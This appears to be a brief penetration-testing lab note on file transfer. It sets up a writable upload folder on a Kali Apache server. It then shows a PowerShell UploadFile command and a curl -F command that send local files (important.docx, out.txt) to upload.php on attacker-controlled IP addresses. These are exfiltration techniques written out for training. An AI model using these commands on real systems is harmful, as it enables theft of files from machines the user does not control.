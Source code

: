 Create upload folder

```
kali@kali:/var/www$ sudo mkdir /var/www/uploads
kali@kali:/var/www$ ps -ef | grep apache
root 1946 1 0 21:39 ? 00:00:00 /usr/sbin/apache2 -k start www-data 1947 1946 0 21:39 ? 00:00:00 /usr/sbin/apache2 -k start
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads
kali@kali:/var/www$ ls -la
total 16
drwxr-xr-x 4 root root
drwxr-xr-x 13 root root
drwxr-xr-x 2 root root
drwxr-xr-x 2 www-data www-data 4096 Feb 2 00:33 uploads
```

Upload file
```
 C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```
Upload File On Linux using curl

`curl -F 'file=@/var/tmp/out.txt' http://192.168.119.175/upload.php`

https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

